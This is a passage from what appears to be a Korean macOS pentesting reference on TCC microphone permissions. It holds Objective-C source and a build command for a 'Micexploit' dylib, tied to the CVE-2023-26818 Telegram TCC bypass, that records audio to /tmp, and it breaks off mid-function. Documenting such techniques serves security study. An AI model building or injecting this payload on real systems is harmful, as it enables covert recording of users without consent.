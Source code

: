 ### 마이크

* **권한**: **com.apple.security.device.audio-input**
* **TCC**: `kTCCServiceMicrophone`

{% tabs %}
{% tab title="ObjetiveC - 녹음" %}
5초 동안 오디오를 녹음하고 `/tmp/recording.m4a`에 저장합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}

- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
NSError *error;
self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

if (error) {
NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
return;
}

if ([self.captureSession canAddInput:self.audioDeviceInput]) {
[self.captureSession addInput:self.audioDeviceInput];
}

self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

if ([self.captureSession canAddOutput:self.audioFileOutput]) {
[self.captureSession addOutput:self.audioFileOutput];
}
}

- (void)startRecording {
[self.captureSession startRunning];
```